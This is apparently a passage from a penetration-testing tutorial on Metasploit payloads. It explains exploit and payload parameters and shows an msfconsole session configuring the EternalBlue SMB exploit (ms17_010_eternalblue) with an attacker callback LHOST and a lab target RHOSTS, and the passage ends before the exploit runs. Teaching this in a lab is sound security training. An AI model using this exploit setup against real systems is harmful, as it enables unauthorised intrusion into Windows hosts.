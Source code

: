 ***

### Using Payloads

Time to set our parameters for both the Exploit module and the payload module. For the Exploit part, we will need to set the following:

| **Parameter** | **Description**                                                                        |
| ------------- | -------------------------------------------------------------------------------------- |
| `RHOSTS`      | The IP address of the remote host, the target machine.                                 |
| `RPORT`       | Does not require a change, just a check that we are on port 445, where SMB is running. |

For the payload part, we will need to set the following:

| **Parameter** | **Description**                                                              |
| ------------- | ---------------------------------------------------------------------------- |
| `LHOST`       | The host's IP address, the attacker's machine.                               |
| `LPORT`       | Does not require a change, just a check that the port is not already in use. |

If we want to check our LHOST IP address quickly, we can always call the `ifconfig` command directly from the msfconsole menu.

**MSF - Exploit and Payload Configuration**

&#x20; Payloads

```shell-session
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```

Then, we can run the exploit and see what it returns. Check out the differences in the output below:
